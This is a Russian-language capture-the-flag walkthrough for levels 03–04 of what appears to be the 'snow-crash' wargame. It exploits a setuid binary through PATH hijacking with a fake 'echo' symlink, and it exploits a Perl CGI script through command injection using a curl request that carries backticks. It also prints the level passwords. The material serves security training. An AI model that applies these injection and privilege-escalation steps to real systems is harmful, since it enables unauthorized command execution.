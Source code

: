 * В директории видим файл level03 это исполняемый файл, выпоним `ltrace ./level03`
получим:
```
__libc_start_main(0x80484a4, 1, 0xbffffd94, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                                                           = 2003
geteuid()                                                                                           = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                 = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                 = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                              = 0
+++ exited (status 0) +++
```
* Нас тут интересует `system("/usr/bin/env echo Exploit me"Exploit me` - значит что мы можем сюда подложить замену.
* Что значит `/usr/bin/env`? Ответ: https://unix.stackexchange.com/questions/364519/why-is-the-env-directory-called-before-echo. Кратко: с такой конструкцией echo запускается не использованием всроенного компонента; сначала проходим по всем директориям в окружении `PATH` и ищем там нужный нам компонент
* Ищем располжение `which getflag` и делаем символьную ссылку с названием echo
* `ln -s /bin/getflag /tmp/echo`
* `PATH=/tmp:$PATH`


## level04 (qi0maab88jeaj46qoumi7maus)

* В директории видим файл level04.pl
```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
* Видим что возможно запущен сервис на 4747 порте
* Можно сделать csrf-атаку и в аргумент x положить `getflag`
Пример: **curl http://localhost:4747?x=\`getflag\`**

## level05 (ne2searoevaevoem4ov4ar8ap)

**You have new mail in /var/mail/level05**
